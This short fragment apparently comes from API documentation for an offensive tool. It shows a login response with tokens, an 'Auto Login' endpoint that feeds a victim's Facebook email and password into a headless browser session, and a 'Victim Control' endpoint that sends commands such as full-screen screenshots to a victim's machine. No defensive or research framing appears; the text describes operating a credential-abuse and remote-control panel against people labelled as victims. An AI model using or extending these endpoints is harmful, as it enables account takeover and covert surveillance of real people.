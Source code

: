 **Response**
```json
{
  "success": true,
  "message": "Login successful",
  "user": {
    "id": "user-123",
    "email": "user@example.com",
    "role": "user",
    "name": "User Name"
  },
  "token": "eyJhbGciOiJIUzI1NiIs...",
  "refreshToken": "eyJhbGciOiJIUzI1NiIs...",
  "expiresIn": "24h"
}
```

### Auto Login

**Start Auto Login Session**
```bash
POST /api/auto-login/start
Authorization: Bearer <token>
Content-Type: application/json

{
  "platformId": "facebook",
  "credentials": {
    "email": "target@email.com",
    "password": "password123"
  },
  "victimId": "victim-001",
  "options": {
    "headless": true,
    "timeout": 30000
  }
}
```

### Victim Control

**Send Command to Victim**
```bash
POST /api/victims/victim-001/commands
Authorization: Bearer <token>
Content-Type: application/json

{
  "command": "screenshot",
  "params": {
    "fullscreen": true,
    "quality": 80
  }
}
```
